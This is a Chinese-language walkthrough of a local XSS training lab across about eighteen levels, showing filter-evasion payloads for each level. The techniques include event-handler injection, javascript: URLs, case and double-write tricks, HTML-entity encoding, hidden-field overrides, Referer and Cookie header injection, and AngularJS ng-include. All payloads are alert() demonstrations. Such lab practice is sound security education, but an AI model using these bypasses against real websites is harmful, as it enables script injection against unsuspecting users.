


XSS小实践与绕过
XSS实践尝试
来到127.0.0.1/xss_vuln
XSS初体验

是get请求，那么我们看一下参数test是否可控
参数可控，那么我们可以写入
http://127.0.0.1/xss_vuln/level1.php?name=<script>alert()</script> |
查看前台源码：
<!--STATUS OK--><html> |
使用window.alert来重写我们的alert函数，无论我们在alert()中加入什么参数，都会显示“完成的不错！”
这里我们目前看不到get请求的处理。
那么继续来看后台代码：
<!--STATUS OK--><html> |
可以看到，由于用户JACK处没有做任何的校验，直接用.来做拼接，那么我们在此处写入XSS代码，就会执行脚本语言。
XSS绕过
来到第二关
查看前台源码：
<!--STATUS OK--><html> |
此处和第一关的不同在于使用了form表单请求，当点击搜索的时候会发送GET请求。
那么我们尝试输入XSS
http://127.0.0.1/xss_vuln/level2.php?keyword=<script>alert()</script>&submit=JACK |
发现尖括号被转码，但是在下方input输入标签内，出现了XSS标准语句，那么我们需要让尖括号<>逃逸
注意：<input>框需要闭合
http://127.0.0.1/xss_vuln/level2.php?keyword="><script>alert()</script>&submit=JACK |
查看其后台源码：
|
关键在于使用了htmlspecialchars函数做了转义。
htmlspecialchars() 函数把预定义的字符转换为 HTML 实体。
预定义的字符是：
&（和号）成为&"（双引号）成为"'（单引号）成为',原样输出<（小于）成为<>（大于）成为>
XSS事件绕过
照前面的思路，这一题直接尝试在输入框写入XSS代码
查看前台源码，看看过滤成了什么样子：
我们发现在value中的部分也做了过滤，那我们需要在逃逸单引号的同时，让alert()函数也执行。
HTML的事件函数，可以返回script值。也就是说，当你写入事件的参数时，事件触发后自动变成script标签：
使用onclick事件函数触发alert()
http://127.0.0.1/xss_vuln/level3.php?keyword=' onclick='alert()' '&submit=æç´¢ |
提交URL后，随便点击一下触发onclick事件，成功绕过：
XSS语法绕过
第四关，我们直接看一下源码：
|
发现是使用str_replace来把>和<都替换成了空值，所以这种情况下，依旧使用onclick事件来XSS是可以的。
观察前台源码是使用双引号闭合的，那么输入：
“ onclick='alert()' ” |
XSS黑名单绕过
第五关，我们照常理使用标准XSS脚本
<script>alert()</script> |
查看源代码看看变成了啥：
script被替换成了scri_pt
那我们使用事件绕过：
" onclick="alert() |
发现onclick被替换成了o_nclick，可见，逃逸+事件绕过宣告失败。
竟然一些特殊的事件被ban，逃逸script标签也不行，那么我们需要考虑一种别的标签，想到超链接标签（同样可以加入js代码）
因此，尝试使用超链接如下：
"><a href="javascript:alert()">a</a> |
成功绕过
XSS Href属性绕过
第六关，我们照往常一样，写入XSS代码：
<script>alert()</script> |
发现和上一题差不多
那么，我们直接使用超链接逃逸：
"><a href="javascript:alert()">a</a> |
好小子，又过滤了href属性字段。
但是我们思考一下，前几次看了源码后发现它都是写死在后台代码中。
那么会不会这一次同样也是将script、onclick、href硬编码在后台代码中做替换呢？
由于php代码和SQL一样，不区大小写，我们尝试：
"><a hRef="javascript:alert()">a</a> |
成功绕过
XSS双写绕过
第7关，照往常，不过我们为了一次性观察想要的过滤信息，可以写成这样：
"><a href="javascript:alert()">onclick script</a> |
我们发现，href、script、on这三个字符统统被吃掉
那么我们有理由猜想，后台代码将其直接匹配之后直接替换成空。
但往往简单的替换都是只匹配一次，我们可以尝试使用双写绕过：
" oonnclick="alert() |

XSS HTML编码绕过
第8关，输入aaa查看前台源码：
那么我们输入一句话探测：
javascript:alert() onclick ononclick script |
那么我们可以看到，script、onclick、ononclick、sCRipt都被过滤
那么我们尝试使用更加细粒度的方法——HTML编码绕过
格式： |
其中，67是C的ASCII编码。
我们使用字符C的HTML编码来绕过对script中字符C的检查：
javasCript:alert() |
XSS 特殊场景逻辑绕过
第9关，我们照常理aaa输入看源码
输入的aaa被替换成了一段文字，链接不合法，那我们输入http://www.baidu.com
成功控制href属性值，那么我们可以尝试一句话探测：
javascript:alert();onclick oonnclick http://www.baidu.com |
可以看到，我们的script、onclick、oonnclick均被过滤
尝试HTML编码，并使用//注释掉后面的正常链接。
javasCript:alert();//http://www.baidu.com |
XSS隐藏字段绕过
第10关，乍一看，完全没有输入框做交互
直接查看前台源码：
这三个input框，其type属性全都是hidden
那么，我们全都请求一遍，看看哪个能被我们控制？
view-source:http://127.0.0.1/xss_vuln/level10.php?t_link=t_link&t_history=t_history&t_sort=t_sort |
我们发现t_sort可以被我们控制，那么就有一句话探测：
t_sort=<script>alert() onclick oonnclick href</script> |
我们发现过滤了尖括号，那么标签绕过法都没有用了，那我们可以尝试事件法——onclick
t_sort=" onclick="alert() |
接着，使用firebug把hidden属性删掉
点击显示出来的输入框，触发onclick事件，成功绕过
还有一种解法就是，复写type属性
t_sort=" onclick="alert()" type="abc |
发现可以直接令后面的type="hidden"失效，也是一种妙招。
HTTP头部XSS
来看第11关，查看前台源码：
发现和上一关的url有关，我们猜想这应该就是HTTP请求的Referer
打开BP从第10关成功后抓包

送入Repeater
发现value的值可以被我们通过操纵Referer控制
那么就有：
"<script>alert()</script> |
尖括号被过滤，那么我们尝试onclick，并且令后面的隐藏type失效
" onclick="alert()" type="xxx |
成功绕过
同样地，来到第12关，查看源码：
抓包看看是哪个字段：
同样原理，构造onclick事件：
" onclick="alert()" type="xxx |
来到第13关，查看源码：
多了个t_cook字段，那么我们请求之：
http://127.0.0.1/xss_vuln/level13.php?t_cook=t_cook |
抓包，送入repeater，发现通过修改Cookie的user=xxx内容就可以控制value字段

那么就有：
" onclick="alert()" type="xxx |
AngularJS绕过
第15关，查看源码：
发现头部加载了一个angular.min.js，之后使用了ng-include来导入了子节点
ng-include 指令用于包含外部的 HTML 文件。
包含的内容将作为指定元素的子节点。
ng-include 属性的值可以是一个表达式，返回一个文件名。
默认情况下，包含的文件需要包含在同一个域名下。
注意：需要使用单引号包裹你想要导入的文件+参数
如何使用呢？如下
http://127.0.0.1/xss_vuln/level15.php?src=1.gif |
那么我们思考，这个页面可以包含另一个页面进来，我们何不考虑把第一题的页面导入进来，然后给它构造参数XSS
这里尝试过单纯地使用script标签没用，所以尝试一种新的事件——img标签配合onerror事件
http://127.0.0.1/xss_vuln/level15.php?src='level1.php?name=<img src=1 onerror="alert()">' |
利用HTML语法特性绕过
第16关，我们尝试输入一句话探测
<script>alert() href img onclick onerror oonn</script> |

发现只有script标签被过滤
查看源码发现是被替换成 空格
但是我们还发现，除了替换标签中的script之外，还把我们输入中的空格全都替换成了HTML编码的空格。
我们不想让标签语句中的空格被替换，那由于HTML语法特性，它只匹配前后的两个尖括号，中间的语句之间“隔好几个空格”或者“换行”都无所谓。
通过上述实验发现img没有过滤，可以用来做标签，那么把语句中的空格全部替换为%0a换行或%0d换行:
<img%0asrc=1%0aonerror="alert()"> |
可控变量绕过
第17关，发现a和b是疑似可控的
变换其值：
那么，我们就可以构造事件，这回换一个使用onmouseover事件(鼠标移动到其上面就触发)
http://127.0.0.1/xss_vuln/level17.php?arg01=aa&arg02=bbb onmouseover=alert() |
成功绕过
第18关与其同理，不做演示。